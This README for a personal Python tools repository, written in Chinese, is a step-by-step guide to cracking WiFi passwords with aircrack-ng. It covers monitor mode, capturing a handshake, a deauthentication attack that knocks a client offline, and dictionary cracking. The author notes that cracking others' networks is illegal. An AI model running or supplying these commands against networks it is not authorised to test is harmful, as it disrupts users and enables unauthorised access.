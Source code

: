 # tool

用Python实现的各种五花八门的工具;

## 一. airmon-ng工具链

airmon-ng可以用来抓取wifi数据包, 并且通过抓到连接wifi时的认证包来破解wifi密码; **请注意： 破解他人的wifi密码是违法行为**; 我这里只是用自己的wifi研究技术问题, airmon-ng工具使用方法; 

### 1.1 环境依赖

* 操作系统: kali
* python 3.11.6
* 工具: airmon-ng
* 有一个支持监听的网卡

airmon-ng具体使用步骤如下

### 1.2 开启监听

```shell
airmon-ng start wlan0
airmon-ng check kill
airodump-ng  wlan0mon
```

查看官方文档, 可以知道PWR表示信号强度, 如果绝对值是80/90左右, 已经是最低下限了,此时就不要破解密码了,因为信号太差, 可能连握手包都抓不到; 尽量找绝对值小的目标wifi下手;

### 1.3 监听指定wifi

```shell
airodump-ng --ignore-negative-one -w 42 -c 11 --bssid 88:88:88:88:88:88 wlan0mon
airodump-ng --ignore-negative-one -w 42 -c 13 --bssid 88:88:88:88:88:88 wlan0mon
```

必须抓到用户建立 wifi新连接时的握手包, **有点难处理的是怎么知道已经抓到握手包？ subprocess运行的子进程airmon-ng又不好监视，估计还是需要人工监视，抓到之后，人工按下ctrl+c发送信号，主进程再发送信信号给airmon-ng进程**

### 1.4 攻击使目标掉线

攻击指定目标, 使其连接断开, 该目标重连时, 就会发送握手包, 一旦捕获到握手包, 此时就可以关闭监听;

aireplay-ng -0 0 -a 88:88:88:88:88:88 -c 88:88:88:88:88:88 wlan0mon

### 1.5 破解密码

使用指定密码字典开始破解

aircrack-ng -a2 -b 88:88:88:88:88:88 -w ../password_dict/*.txt ./5E03-02.cap

